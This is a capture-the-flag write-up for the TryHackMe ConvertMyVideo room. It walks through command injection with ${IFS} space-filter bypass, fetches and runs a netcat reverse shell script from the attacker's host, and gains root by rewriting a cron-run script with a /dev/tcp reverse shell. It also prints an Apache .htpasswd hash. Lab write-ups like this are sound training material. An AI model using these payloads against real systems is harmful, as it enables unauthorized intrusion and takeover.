# TryHackMe: ConvertMyVideo

The [ConvertMyVideo](https://tryhackme.com/room/convertmyvideo) is a medium difficulty room on TryHackMe.com but requires a lot of thinking at each step. Right from gaining the foothold to escalating our privileges, we need to think out of the box to get the desired result. This room focuses on various things such as intercepting traffic, OS command injection and analyzing cron jobs.

So, let's begin!

## Initial Enumeration

The first thing that we must do is scan all the ports and get details of the services running there using `nmap`:

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
└─$ sudo nmap -sS -p- -T3 10.10.77.13 | tee open_ports
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 09:51 EDT
Nmap scan report for 10.10.77.13
Host is up (0.22s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1761.84 seconds
                                                                                                                     
┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
└─$ nmap -sC -sV -O -p22,80 10.10.77.13 | tee port_details             
TCP/IP fingerprinting (for OS scan) requires root privileges.
QUITTING!
                                                                                                                     
┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
└─$ sudo nmap -sC -sV -O -p22,80 10.10.77.13 | tee port_details
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 10:24 EDT
Nmap scan report for 10.10.77.13
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.49 seconds

```

So, here it can be seen that only port 22 and 80 are open. And as Apache is running on port 80, we can go and check the web pages that hosted over there. 

On visiting the IP address through our browser, we land up on a page which looks like:


All that can be done over here is enter a Video ID. But can definitely take a look at the page's source-code. 



Over here, it can be seen that this page is referring to a JS file names as `main.js` which has the following code:



From this JS, it can be seen that the passed value is being added at the end of the string "https://www.youtube.com/watch?v=" and then being sent to the server. We can intercept this traffic using Burp Suite and try to modify it to check for any vulnerabilities.



Here, we can see that the entered value "1234" has been added at the end of the passed string.

```
yt_url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D**1234**
```

With the help of `burp`, we can modify the entire value that is being sent to the server and try to check if command injection is possible from here.

For this, first we need to send this request to "Repeater" and then try to send different values:



When only semicolon is passed, it returns an error. We can try to add some command after that as well:


It can be seen that our entered value gets reflected but we did not get the output of the command. We can try backticks (`\``) as they have the highest priority in a command.



Here, we can see that backticks worked. So, we can try to send a reverse shell payload and to get access to the machine:



Though we saw that we can perform command injection over here, it certainly did not work in the case of obtaining a reverse shell. And we look closely at the response through all the commands that we had sent then it can be seen that our provided command was getting reflected in `"url_original":<entered_value>`. But in the case of reverse shell, the value that was returned was just ``"url_original":"`rm"``. It appears that space (` `) is being filtered from the input. To confirm this we can send the command `ls -la`.



And as expected only `ls` was returned in the output. So, we can be sure that space(` `)is being filtered out.

## Gaining Foothold

Now the issue here is that in order to get access to the system we need to run the reverse shell command anyhow on the system but our input is getting filtered. So, in order to bypass this we can do the following:

1. Create a bash file with reverse shell payload in it on our local machine

   ```bash
   ┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
   └─$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.91.135 4444 >/tmp/f" > shell.sh
   ```

2. Now, we need to start a python server on our local machine

   ```bash
   ┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
   └─$ python3 -m http.server  
   Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
   ```

3. We can now download the shell file on the target machine using `wget`

   

   > The ${IFS} means **Internal Field Separator** which is used for splitting words after expansion and to split lines into words. Its default value is <space><tab><newline>

4. From the response, we can say that the file was successfully download on the machine. 

5. To make sure that the file is downloaded we can run the command `ls`

6. Now that the file is downloaded, we need to execute it but before that we need to make the file executable. So, we can send the command `chmod +x shell.sh` as `chmod${IFS}+x${IFS}shell.sh`.

   

   But it looks like even this is not working. And from the value that is returned we can assume that the issue is due to `+` in our command. But we have another option for this and that by sending the command `chmod 777 shell.sh` with `${IFS}`.

   

   Normally the `chmod` command does not return anything and same is the case over here. 

7. Start a listener on our local machine

   ```bash
   ┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
   └─$ nc -nvlp 4444
   listening on [any] 4444 ...
   
   ```

8. Send the command to run the script and wait for a reverse shell connection

   

   ```bash
   ┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
   └─$ nc -nvlp 4444                                                                                                 1 ⨯
   listening on [any] 4444 ...
   connect to [10.8.91.135] from (UNKNOWN) [10.10.234.149] 56850
   sh: 0: can't access tty; job control turned off
   $ whoami
   www-data
   $ hostname
   dmv
   ```

9. And there we get our shell.
10. But as this a dumb shell, we can upgrade it using the method explained [here](https://0xnirvana.medium.com/gaining-interactive-reverse-shell-w-python-a4bd490735a8).

Now we can start exploring the files to which we have acces

```bash
www-data@dmv:/var/www/html/admin$ ls -la
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Apr 25 17:40 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12  2020 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12  2020 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12  2020 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12  2020 index.php
```

It can be seen that the owner of `flag.txt` is `www-data` itself, so we can read it and submit the user flag. 

## Privilege Escalation

Other than the flag, we have access to `.htaccess` and `.htpasswd` as well which we can check.

```bash
www-data@dmv:/var/www/html/admin$ cat .htaccess
AuthName "AdminArea"
AuthType Basic
AuthUserFile /var/www/html/admin/.htpasswd
Require valid-user
www-data@dmv:/var/www/html/admin$ cat .htpasswd 
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

It can be seen that the hash starts with `$apr1$` which after researching for a while we can come to know is developed by Apache for `.htpasswd`. Also, it is very difficult to crack this has. 

*I tried to crack it with hashcat and john but did  not succeed.*

But this appears to be a rabbit hole as this hash can't be cracked easily. Moving on we can start looking for some other method for privilege escalation like searching for the SUID binaries

```bash
www-data@dmv:/var/www/html/tmp$ find / -perm -4000 2> /dev/null
/usr/bin/at
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/bin/ping
/bin/mount
/bin/fusermount
/bin/su
/bin/umount

```

None of these appear to be useful for privilege escalation by using GTFOBins. We can also check the cron jobs

```bash
www-data@dmv:/var/www/html/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

```

But looks like there are no cron jobs running on the system. The next thing that we can look for are the processes running on the system using the command `ps aux`.

While going the processes, we can see on odd process running

```bash
root       742  0.0  0.5  30104  2928 ?        Ss   18:02   0:00 /usr/sbin/cron -f
```

We just checked earlier and saw that there are no cron jobs running on the system but in the running processes we can see that cron is running. This appears to be something odd. To analyze such things we can use [pspy64](https://github.com/DominicBreuker/pspy#download). 

> Directly download the pspy64 bit file using the download line (no need to clone the entire repository)

Once downloaded on our local machine, we can transfer the it to the target machine by using a `python` server and `wget`. And then make it executable. 

We can run it with simply by executing the command `./pspy64` and then wait for sometime as it snoops the processes that are being executed on the system.

After waiting for sometime, we can see the command that `cron` is running

```bash
2021/04/25 18:29:01 CMD: UID=0    PID=1517   | bash /var/www/html/tmp/clean.sh 
2021/04/25 18:29:01 CMD: UID=0    PID=1516   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2021/04/25 18:29:01 CMD: UID=0    PID=1515   | /usr/sbin/CRON -f 
2021/04/25 18:29:01 CMD: UID=0    PID=1519   | 
```

It appears that `cron` is executing a file named `clean.sh` stored at `/var/www/html/tmp`. We can check the permissions for this bash script and see if we can modify that script to our benefit.

```bash
www-data@dmv:/var/www/html/tmp$ ls -la
total 12
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Apr 25 18:19 ..
-rw-r--r-- 1 www-data www-data   17 Apr 12  2020 clean.sh

```

We can see that, `www-data` is the owner of the file. So, we can easily modify its content and use it to escalate our privileges.

We can change its content to create a bash binary with SUID bit as `root` so we can use it to gain access as `root`. For this, we can run the command

```bash
www-data@dmv:/var/www/html/tmp$ echo "cp /bin/bash /tmp/myroot; chmod +s /tmp/myroot" > clean.sh

```

Once the content of the script are updated, we can again run `pspy64` and monitor till the `cron` executes the script. But in this case even after the script gets executed by `cron`, the `myroot` file does not get created in the `/tmp` directory. We can try to change the path from `/tmp` to something else as well but it won't work. Also, when tried to run the script directly as `www-data` the script executes successful and the `myroot` file also gets created (obviously of no use because it'd have the SUID bit set for `www-data`. This can be done for making sure that script is working properly). 

So, the next thing that we can do is try to create a remote shell by putting some reverse shell command in the `clean.sh` file. For this we can run the command:

```bash
echo "sh -i >& /dev/tcp/10.8.91.135/4445 0>&1" > tmp/clean.sh
```

Start a listener on our local machine over the new port number provided and again start `pspy64` to check when the script gets executed. Now, as soon as the script gets executed we get a shell as `root` on our listener

```
┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
└─$ nc -nvlp 4445                                                                                                 1 ⨯
listening on [any] 4445 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.106.173] 60212
sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# cat root.txt	
```

With this we have completed the room!

## Key Points to Take Away

1. Backticks (`) have the highest preference in a command.
2. In command injection, if space(` `)is being filtered, use `${IFS}`.
3. If a duplicate `/bin/bash` can't be created with `root` SUID bit set, try to gain a remote shell with `root` privilege.

## References

1. TryHackMe - convertMyVideo: https://tryhackme.com/room/convertmyvideo
2. Reverse Shell Generator: https://www.revshells.com/
3. GTFOBins: https://gtfobins.github.io/
4. PSPY64: https://github.com/DominicBreuker/pspy#download

